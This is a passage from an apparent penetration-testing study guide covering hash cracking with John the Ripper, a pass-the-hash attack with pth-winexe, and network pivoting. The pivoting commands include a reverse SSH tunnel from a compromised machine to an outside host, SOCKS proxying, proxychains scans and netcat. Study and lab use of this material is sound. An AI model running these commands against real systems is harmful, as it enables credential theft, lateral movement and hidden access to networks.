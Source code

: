         `john --format=descrypt --wordlist /usr/share/wordlists/rockyou.txt hash.txt`

    *   JTR forced descrypt brute force cracking

        `john --format=descrypt hash --show`

*   Passing the Hash in Windows

    *   Use Metasploit to exploit one of the SMB servers in the labs. Dump the password hashes and attempt a pass-the-hash attack against another system:

        `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896`

        `pth-winexe -U administrator //$ip cmd`

# [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#networking-pivoting-and-tunneling)Networking, Pivoting and Tunneling

*   Port Forwarding - accept traffic on a given IP address and port and redirect it to a different IP address and port

    *   `apt-get install rinetd`

    *   `cat /etc/rinetd.conf`

            # bindadress bindport connectaddress connectport
            w.x.y.z 53 a.b.c.d 80

*   SSH Local Port Forwarding: supports bi-directional communication channels

    *   `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`
*   SSH Remote Port Forwarding: Suitable for popping a remote shell on an internal non routable network

    *   `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`
*   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local attacking box to tunnel ALL incoming traffic to ANY host in the DMZ network on ANY PORT

    *   `ssh -D <local proxy port> -p <remote port> <target>`
*   Proxychains - Perform nmap scan within a DMZ from an external computer

    *   Create reverse SSH tunnel from Popped machine on :2222

        `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com` `ssh -f -N -R 2222:<local host>:22 root@<remote host>`

    *   Create a Dynamic application-level port forward on 8080 thru 2222

        `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`

    *   Leverage the SSH SOCKS server to perform Nmap scan on network using proxy chains

        `proxychains nmap --top-ports=20 -sT -Pn $ip/24`

*   HTTP Tunneling

    `nc -vvn $ip 8888`
